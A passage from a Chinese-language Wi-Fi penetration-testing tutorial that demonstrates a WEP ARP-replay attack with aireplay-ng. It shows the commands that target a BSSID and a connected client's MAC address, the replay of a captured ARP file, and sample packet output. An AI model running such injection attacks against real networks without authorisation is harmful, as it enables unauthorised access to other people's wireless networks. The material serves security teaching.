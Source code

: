 按*回车，*可能需要一些时间，但要等待目标网络出现在您的列表中；以下屏幕截图显示了一个示例：

![](img/49e6003e-66af-448f-bc37-1d955e2e7fac.png)

注意第一列中显示的 MAC 地址。

一旦你的目标出现，你就可以开始`aireplay`。在第二个控制台中，输入以下内容：

```
aireplay-ng --arpreplay -b <target BSSID> -h <MAC address of connected client> <interface name> 
```

`-b`指定目标 BSSID，`-h`连接客户端的 MAC。

1.  现在您必须等待 ARP 数据包到达。通常你得等几分钟。一旦成功，您将看到类似以下内容：

```
 Saving ARP requests in replay_arp-1001.cap 
```

2.  您还必须启动`airodump`以捕获回复：

```
 Read 2493 packets (got 1 ARP requests), sent 1305 packets...
```

3.  下一步是重用保存在文件中的捕获的 ARP 数据包。您会注意到它说 ARP 请求被保存在`replay_arp-1001.cap`中。因此，我们不必等待新的 ARP，只需使用`-r`参数重用旧的 ARP：

```
 aireplay-ng -2 -r replay_arp-1001.cap ath0                        
```

4.  系统响应：

```
 Size: 86, FromDS: 0, ToDS: 1 (WEP) 

           BSSID  =  00:14:6C:7E:40:80 
       Dest. MAC  =  FF:FF:FF:FF:FF:FF 
      Source MAC  =  00:0F:B5:88:AC:82 

      0x0000:  0841 0000 0014 6c7e 4080 000f b588 ac82  .A....l~@....... 
      0x0010:  ffff ffff ffff 7092 e627 0000 7238 937c  ......p..'..r8.| 
      0x0020:  8011 36c6 2b2c a79b 08f8 0c7e f436 14f7  ..6.+,.....~.6.. 
      0x0030:  8078 a08e 207c 17c6 43e3 fe8f 1a46 4981  .x.. |..C....FI. 
      0x0040:  947c 1930 742a c85f 2699 dabe 1368 df39  .|.0t*._&....h.9 
      0x0050:  ca97 0d9e 4731                           ....G1 

```